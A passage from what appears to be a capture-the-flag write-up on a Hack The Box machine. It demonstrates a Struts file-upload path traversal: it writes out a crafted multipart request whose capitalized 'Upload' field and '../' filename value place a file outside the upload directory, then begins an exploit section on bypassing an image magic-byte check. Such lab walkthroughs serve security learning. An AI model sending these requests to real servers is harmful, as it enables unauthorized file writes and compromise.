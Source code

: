 **Step 3:**

  

In this Last step, We will try to confuse the upload data handling logic, by using capitalized ‘U’ in upload.

  

```

------WebKitFormBoundaryiqze7OZ2lynLStkK

Content-Disposition: form-data; name="Upload"; filename="testwrite3.txt"

Content-Type: text/plain

TESTING

------WebKitFormBoundaryiqze7OZ2lynLStkK

Content-Disposition: form-data; name="top.UploadFileName"

../testwrite3.txt

------WebKitFormBoundaryiqze7OZ2lynLStkK--

```

  

By using ‘Upload’ instead of ‘upload’ in the name parameter, we can successfully upload the file in the specified path.

  

This path traversal file upload will be successful.

  

```

RESULT: /path1/testwrite3.txt

```

  

## Exploit:

--------

  

11. The application enforces file uploads to be image files only. It uses a function that checks the magic bytes to ensure the uploaded file is indeed an image.

  

![/strutted/src/main/java/org/strutted/htb/Upload.java](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*GU54jd2lBO8NcWK11EYA6w.png)

  